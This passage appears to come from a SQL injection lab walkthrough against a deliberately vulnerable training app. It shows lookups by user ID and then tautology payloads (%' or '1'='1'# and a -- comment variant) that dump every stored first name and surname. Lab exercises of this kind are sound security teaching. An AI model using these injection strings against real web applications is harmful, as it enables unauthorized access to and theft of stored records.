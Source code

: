 3. Enter 1 in input box of User ID and click on submit.

ID: 1
First name: admin
Surname: admin


ID: 2
First name: Gordon
Surname: Brown


ID: 3
First name: Hack
Surname: Me

ID: 4
First name: Pablo
Surname: Picasso


4. An advanced method to extract all the First names and Surnames

ID: %' or '1'='1'#   
First name: admin
Surname: admin
ID: %' or '1'='1'#   
First name: Gordon
Surname: Brown
ID: %' or '1'='1'#   
First name: Hack
Surname: Me
ID: %' or '1'='1'#   
First name: Pablo
Surname: Picasso
ID: %' or '1'='1'#   
First name: Bob
Surname: Smith


ID: %' or '1' ='1' --' 
First name: admin
Surname: admin
ID: %' or '1' ='1' --' 
First name: Gordon
Surname: Brown
ID: %' or '1' ='1' --' 
First name: Hack
Surname: Me
ID: %' or '1' ='1' --' 
First name: Pablo
Surname: Picasso
ID: %' or '1' ='1' --' 
First name: Bob
Surname: Smith
